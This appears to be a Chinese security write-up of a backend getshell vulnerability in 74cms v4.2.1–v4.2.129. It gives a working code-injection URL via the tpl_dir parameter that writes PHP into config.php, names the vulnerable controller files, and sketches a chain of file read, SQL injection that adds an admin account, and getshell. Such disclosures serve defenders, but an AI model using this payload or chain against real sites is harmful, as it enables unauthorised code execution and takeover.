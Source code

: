# 74cms v4.2.1 - v4.2.129-后台getshell漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2776](https://www.zhihuifly.com/t/topic/2776)

# 74cms v4.2.1-v4.2.129-后台getshell漏洞

## 0x00 前言

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

## 0x02漏洞演示

![image](img/55a8dbd1825d4f385e18819760396d67.png)

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),' `shell:[http://74cms.test/Application/Home/Conf/config.php](http://74cms.test/Application/Home/Conf/config.php)

路径：\74cms\upload\Application\Home\Conf\config.php` 
```

![image](img/f78ad077252a2f322080230242ab2590.png)

![image](img/93d6eadf5a5e4550c50392efb0a0db2c.png)

## 0x03 漏洞原理

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php 
```

![image](img/a1098a4f960dad07b04ba0ed1c576e39.png)

```
路径： 74cms\upload\Application\Common\Controller\BackendController.class.php 
```

![image](img/766c48011574513991c9ca786ebabdd6.png)

## 0x04题外话-认真版getshell方法

认真版getshell方法：
实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。
首先利用-任意文件读取漏洞-读取系统中的hash值
然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户
在通过这个后台getshell漏洞
即可完成一套日穿

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm